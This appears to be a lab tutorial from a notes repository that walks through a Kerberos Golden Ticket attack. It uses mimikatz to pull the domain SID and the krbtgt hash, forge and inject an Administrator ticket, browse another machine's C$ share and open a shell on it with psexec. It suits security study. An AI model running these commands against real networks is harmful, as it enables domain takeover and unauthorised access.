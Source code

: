 # III. Golden Ticket Attacks

Login to Windows Server machine as Administrator. Move mimikatz to the Downloads folder.

Open the Command line, move to the location we saved mimikatz , and run it.

![gold1.png](III%20Golden%20Ticket%20Attacks%20026d9b95751b466798b969c4c80a83dc/gold1.png)

Copy the SID of the domain:

![gold2.png](III%20Golden%20Ticket%20Attacks%20026d9b95751b466798b969c4c80a83dc/gold2.png)

And the NTLM hash of the krbtgt account:

![gold3.png](III%20Golden%20Ticket%20Attacks%20026d9b95751b466798b969c4c80a83dc/gold3.png)

Paste them into a notepad. These will allow us to generate our golden ticket.

Next we type in the following command to generate the golden ticket:

`kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<SID> /krbtgt:<HASH> /id:500 /ptt`

NOTE: The Administrator account has an RID (Relative Identifier) of 500 and `ptt` stands for pass the ticket. This allow use to pass the ticket to the next session to open a command prompt to access any computer we want.

![gold4.png](III%20Golden%20Ticket%20Attacks%20026d9b95751b466798b969c4c80a83dc/gold4.png)

Done!

Next, start a new command prompt with `misc::cmd`. Type in `dir \\UserMachine\c$`(If it doesn’t work, try using the IP address instead).

We’ve accessed the directory of the `FRANKY` machine.

![gold5.png](III%20Golden%20Ticket%20Attacks%20026d9b95751b466798b969c4c80a83dc/gold5.png)

We can take this a step further by using `psexec` and using it against the user machine to get a shell. 

E.g. `psexec.exe \\UserMachine cmd.exe`

![gold6.png](III%20Golden%20Ticket%20Attacks%20026d9b95751b466798b969c4c80a83dc/gold6.png)